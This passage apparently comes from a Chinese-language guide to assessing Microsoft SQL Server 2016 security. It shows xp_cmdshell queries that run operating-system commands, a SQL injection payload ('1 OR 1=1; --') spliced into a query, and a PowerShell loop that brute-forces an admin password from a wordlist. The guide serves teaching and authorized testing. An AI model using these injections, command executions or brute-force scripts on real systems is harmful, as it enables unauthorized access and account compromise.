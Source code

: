     +   查询以检查 SQL Server 服务账户权限：

        ```
         ```sql

        EXEC xp_cmdshell 'whoami';

        ```
        ```

    +   查询以检查与 SQL Server 相关的服务：

        ```
          ```sql

        EXEC xp_cmdshell 'sc query | findstr /i "SQL"';

        ```
        ```

这些是一些常见的 SQL 查询和检查，可能是 Microsoft SQL Server 2016 安全评估的一部分。具体使用的查询可能根据组织的安全策略、评估的范围以及执行评估的安全专业人员使用的工具和脚本有所不同。进行此类评估时，必须负责任地执行，遵循最佳实践，并获得适当的授权。

### SQL 注入测试

SQL 注入是一种常见的 Web 应用漏洞。PowerShell 可以通过构造恶意查询模拟 SQL 注入攻击，利用应用程序中的潜在漏洞：

```
 $productId = "1 OR 1=1; --"
$command = $connection.CreateCommand()
$command.CommandText = "SELECT * FROM Products WHERE ProductID = $productId;"
```

在这个示例中，我们执行以下操作：

1.  通过将 `productId` 设置为 `"1 OR** **1=1; --"` 构造一个 SQL 注入有效载荷。

1.  执行可能容易受到 SQL 注入攻击的查询。

### 暴力破解攻击

PowerShell 脚本可以自动化对 SQL Server 账户的暴力破解攻击，以测试用户密码的强度：

```
 $username = "admin"
$passwords = Get-Content "passwords.txt"  # Load a list of passwords from a file
foreach ($password in $passwords) {
    $command = $connection.CreateCommand()
    $command.CommandText = "SELECT * FROM Users WHERE Username = '$username' AND Password = '$password';"
    $result = $command.ExecuteScalar()
    if ($result -ne $null) {
        Write-Host "Login successful for $username with password $password"
        break
    } }
```

在这个示例中，我们执行以下操作：

